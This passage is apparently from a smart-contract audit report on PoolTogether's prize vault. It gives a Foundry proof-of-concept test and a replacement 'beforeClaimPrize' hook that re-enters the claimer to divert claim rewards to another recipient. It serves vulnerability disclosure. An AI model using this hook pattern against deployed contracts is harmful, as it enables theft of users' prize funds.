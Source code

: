     function auditor_complete_claim_proccess(bool willSteal) internal {
        // If tier is 1 we will take the claimer fees and if 0 we will do nothing
        uint8 tier = willSteal ? 1 : 0;

        Auditor_MockPrizeToken __prizeToken = new Auditor_MockPrizeToken();
        Auditor_PrizePoolMock __prizePool = new Auditor_PrizePoolMock(address(__prizeToken));

        address __winner = makeAddr("winner");
        address __claimerRecipent = makeAddr("claimerRecipent");

        // This will be like the `PrizeVault` that has the winner
        ClaimableWrapper __claimable = new ClaimableWrapper(
            PrizePool(address(__prizePool)),
            address(1)
        );

        // Claimer contract, that can transfer winners rewards
        __claimer = new Auditor_Claimer(address(__claimable));
        // Set new Claimer
        __claimable.setClaimer(address(__claimer));

        VaultHooks memory beforeHookOnly = VaultHooks(true, false, hooks);

        vm.startPrank(__winner);
        __claimable.setHooks(beforeHookOnly);
        vm.stopPrank();

        // PrizePool earns 100 tokens from yields, and we picked the winner
        __prizeToken.mint(address(__prizePool), 100e18);

        address[] memory __winners = new address[](1);
        __winners[0] = __winner;

        // Claim Prizes by providing `__claimerRecipent`
        __claimer.claimPrizes(__winners, tier, 10e18, __claimerRecipent);

        console2.log("Winner PrizeTokens:", __prizeToken.balanceOf(__winner) / 1e18, "token");
        console2.log(
            "ClaimerRecipent PrizeTokens:",
            __prizeToken.balanceOf(__claimerRecipent) / 1e18,
            "token"
        );
    }
  ```

</details>

3. Change [`beforeClaimPrize`](https://github.com/code-423n4/2024-03-pooltogether/blob/main/pt-v5-vault/test/unit/Claimable.t.sol#L254-L274) hook function, and replace it with the following.

```solidity
    function beforeClaimPrize(
        address winner,
        uint8 tier,
        uint32 prizeIndex,
        uint96 reward,
        address rewardRecipient
    ) external returns (address) {
        address[] memory __winners = new address[](1);
        __winners[0] = winner;

        if (tier == 1) {
            __claimer.claimPrizes(__winners, 0, 0, rewardRecipient);
        }

        return winner;
    }
```

